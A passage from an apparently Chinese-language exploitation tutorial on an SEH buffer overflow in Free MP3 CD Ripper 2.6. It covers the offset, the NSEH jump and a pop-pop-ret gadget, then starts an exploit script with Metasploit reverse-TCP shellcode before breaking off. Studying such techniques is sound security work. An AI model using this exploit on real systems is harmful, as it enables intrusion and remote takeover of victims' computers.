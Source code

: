 ![](https://i.loli.net/2020/08/12/TWGbx92K3HuhrXm.png)

可以看到4116个字符正好覆盖到了`Pointer to next SEH record`，定位成功。

`Pointer to next SEH record`（简称`NSEH`），指示下一个`SEH`结构的位置，这里使用`"\xeb\x06\x90\x90"`填充，这四字节反汇编的结果是`jmp 6、nop、nop`三条指令，`jmp 6`表示跳过6个字节，刚好跳过两个`nop`指令和一个4字节的`SEH`处理程序地址，然后落入`nop`指令区，滑行进入`shellcode`。结合`SEH`和`NSEH`，才能完成溢出攻击的全部过程。

![](https://i.loli.net/2020/08/12/kCAPdoHD1VnM9Kb.png)

然后寻找`pop pop ret`三条连续的指令，在`xp`中这个过程会简单很多，但是`win7`及更高版本的系统中加入了`safeseh`、`ASLR`等安全保护措施。可以在`ImmunityDebugger`中执行`!mona seh`命令：

![](https://i.loli.net/2020/08/12/foJFY4uEKAD9CZM.png)

`Seh.txt`存放在`C:\Users\User\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger`文件夹下，可以在其中找到一条信息：

![](https://i.loli.net/2020/08/12/bQOFN5CJYTBrmoV.png)

可以看到这个`pop pop ret`指令序列地址为`0x66e42084`，对应的是软件自带的`dll`文件(`C:\Program Files\Free MP3 CD Ripper\ogg.dll`)，注意不要使用系统自带的dll文件，可能会有`ASLR`、`SafeSEH`保护。由于大端小端问题，然后我们就可以在`shellcode.py`中给`SEH`赋值`"\x84\x20\xe4\x66"`。

然后我们可以利用`msf`定制一个反向`TCP`链接的`shellcode`：

![](https://i.loli.net/2020/08/12/8v7bRDsImq1JVzZ.png)

生成的`shellcode`为341个字节，需要考虑缓冲区的大小是否可以放入`shellcode`。根据`ImmunityDebugger`的调试结果，计算一下缓冲区大小：

![](https://i.loli.net/2020/08/12/tG3CbU1QAKH94ED.png)

![](https://i.loli.net/2020/08/12/bfSij1IUoRNvAnV.png)

`0x5ACFFFC-0x5ACFEC4=0x138`，转换为十进制是312，所以缓冲区大小为`312+4=316`字节，因此放不下341字节的`shellcode`。

对shellcode进行压缩：

![](https://i.loli.net/2020/08/12/vUdXCxGOoufMn87.png)

压缩后，`shellcode`大小为283字节。编写`shellcode.py`：
```python
# Stack-based buffer overflow in Free MP3 CD Ripper 2.6

buffer = "A"*4116
NSEH = "\xeb\x06\x90\x90"
SEH = "\x84\x20\xe4\x66"
nops = "\x90" * 5
buf = ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
buf += "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
buf += "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
buf += "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
buf += "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
buf += "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
buf += "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
buf += "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
buf += "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
buf += "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
buf += "\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
buf += "\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x0c"
buf += "\x68\x02\x00\x22\xb8\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
buf += "\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
buf += "\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0"
buf += "\xb5\xa2\x56\xff\xd5\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8"
buf += "\x5f\xff\xd5\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00"
buf += "\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68"
```
